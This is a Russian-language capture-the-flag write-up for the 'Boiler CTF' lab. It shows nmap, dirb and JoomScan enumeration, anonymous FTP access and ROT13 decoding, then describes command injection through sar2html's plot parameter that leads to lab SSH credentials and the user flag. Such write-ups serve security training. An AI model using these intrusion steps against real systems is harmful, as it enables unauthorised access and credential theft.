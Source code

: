 # TASK - Boiler CTF
![Main](./png/main.png)


<details>
  <summary>Ответы на вопросы</summary>

[Task 1] Questions #1
![Answer One](./png/task1.png)
[Task 2] Questions #2
![Answer Two](./png/task1.png)  
</details>   

## User

Для начала необходимо просканить порты : `sudo nmap -sV -p- -T5 -sC -Pn 10.10.211.61` 
```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.10.151
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Видим открытые порты 21 - ftp, 80 - http, 10000 - http (Webmin). Узнаем все дирректории с помощью `dirb`

`dirb http://10.10.224.171/`
```
+ http://10.10.224.171/index.html (CODE:200|SIZE:11321)
==> DIRECTORY: http://10.10.224.171/joomla
==> DIRECTORY: http://10.10.224.171/manual/
+ http://10.10.224.171/robots.txt (CODE:200|SIZE:257)
+ http://10.10.224.171/server-status (CODE:403|SIZE:301)
Entering directory: http://10.10.224.171/joomla/
==> DIRECTORY: http://10.10.224.171/joomla/_archive/
==> DIRECTORY: http://10.10.224.171/joomla/_database/
==> DIRECTORY: http://10.10.224.171/joomla/_files/
==> DIRECTORY: http://10.10.224.171/joomla/_test/
==> DIRECTORY: http://10.10.224.171/joomla/~www/
==> DIRECTORY: http://10.10.224.171/joomla/administrator/
==> DIRECTORY: http://10.10.224.171/joomla/bin/
==> DIRECTORY: http://10.10.224.171/joomla/build/
==> DIRECTORY: http://10.10.224.171/joomla/cache/
==> DIRECTORY: http://10.10.224.171/joomla/components/
==> DIRECTORY: http://10.10.224.171/joomla/images/
==> DIRECTORY: http://10.10.224.171/joomla/includes/
+ http://10.10.224.171/joomla/index.php (CODE:200|SIZE:12484)
==> DIRECTORY: http://10.10.224.171/joomla/installation/
==> DIRECTORY: http://10.10.224.171/joomla/language/
==> DIRECTORY: http://10.10.224.171/joomla/layouts/
==> DIRECTORY: http://10.10.224.171/joomla/libraries/
==> DIRECTORY: http://10.10.224.171/joomla/media/
==> DIRECTORY: http://10.10.224.171/joomla/modules/
==> DIRECTORY: http://10.10.224.171/joomla/plugins/
==> DIRECTORY: http://10.10.224.171/joomla/templates/
==> DIRECTORY: http://10.10.224.171/joomla/tests/
==> DIRECTORY: http://10.10.224.171/joomla/tmp/  
```

Узнаем, что CMS сайта - Joomla, но попытка просканить на уязвимости его оказались безуспешными. Скан был проведен с помощью `JoomScan`
```
[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B[++] Joomla 3.9.12dev

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable
[+] Checking Directory Listing
[++] directory has directory listing :
http://10.10.87.59/joomla/administrator/components
http://10.10.87.59/joomla/administrator/modules
http://10.10.87.59/joomla/administrator/templates
http://10.10.87.59/joomla/images/banners
[+] Checking apache info/status files
[++] Readable info/status files are not found
[+] admin finder
[++] Admin page : http://10.10.87.59/joomla/administrator/
[+] Checking robots.txt existing
[++] robots.txt is not found
[+] Finding common backup files name
[++] Backup files are not found
[+] Finding common log files name
[++] error log is not found
[+] Checking sensitive config.php.x file
[++] Readable config files are not found
Your Report : reports/10.10.87.59/
```
[Описание тулзы](https://kali.tools/?p=1241)

Не забываем про то, что у нас есть ftp 21 порт и пытаемся подключится к нему. Используем логин `anonymous`, для того чтобы подключиться к серверу.

![ftp](png/ftp_ls.png)

Для того, чтобы мы могли получить `.info.txt` необходимо использовать Passive mode FTP.
![fpt_1](png/passive_on.png)

Прочитав данный файл мы получаем - `Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!`, сразу идем декриптить это в любой сайт для дешифрования. Я использую [этот](https://www.boxentriq.com/code-breaking/cipher-identifier). 
![Chiper1](./png/chiper1.png)
Так же на сайте имееются еще пару шифров, которые не имеют значения к решению. 

<details>
  <summary>Пример</summary>

![chiper2](./png/chiper2.png)
------------------------------------
![joke_admin](./png/joke_admin.png)
------------------------------------
![robot_txt](./png/robots_txt.png)
------------------------------------
</details> 


Когда мы использовали тулзу `dirb` он обнаружил интересный линк - `http://10.10.87.59/joomla/_test/`
Видим, что используется `sar2html`. Более подробно про него можно прочитать [тут](https://sourceforge.net/projects/sar2html/)

Уязвимость заключается в этом веб-интерфейсе, в параметре `plot=NEW`

![sploitSar2Html](./png/exploitPLOT.png) 

Попробуем вставить туда команду `ls` и посмотрим, что нам покажет. Более подробнее [exploit](https://www.nmmapper.com/st/exploitdetails/47204/41579/sar2html-321-remote-command-execution/) 

![ls_sploit](./png/ls_exploit.png)

Дальше выполним команду `cat log.txt` и увидим пароль и юзера от ssh   `superduperp@$$:basterd`

![cat_log](./png/cat_log.png)

Коннектимся по ssh и заходим на машину `ssh basterd@10.10.87.59 -p 55007` 

![ssh_connect](./png/ssh_conn.png)
![ssh_ls_com](./png/ssh_user.png)

Копируем файл [backup.sh](./backup.sh) себе на машину для дальнейшего изучения `scp -P 55007 basterd@10.10.87.59:/home/basterd/backup.sh /home/nick/file/`.
В нем узнаем пароль от пользователя `stoner:superduperp@$$no1knows`
## User flag
![user_flag](png/user_txt_2.png)

